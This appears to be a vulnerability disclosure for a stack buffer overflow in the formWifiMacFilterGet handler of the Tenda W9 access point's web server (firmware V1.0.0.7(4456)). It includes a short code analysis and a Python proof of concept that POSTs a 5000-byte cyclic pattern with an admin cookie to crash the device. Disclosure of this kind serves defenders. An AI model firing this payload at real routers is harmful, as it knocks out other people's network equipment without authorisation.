 # Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `formWifiMacFilterGet` function of `httpd`. The value of the `index` parameter will be concatenated ​​to local variable `s`, which will cause stack buffer overflow. **Regardless of the values of other parameters, the sprintf function will be executed. Because all branches lack premature exit statements and each branch contains the sprintf function with a stack overflow vulnerability.**

![code](./code.png)
## POC
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/WifiMacFilterGet"

payload = { 
    'index': cyclic(5000)
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.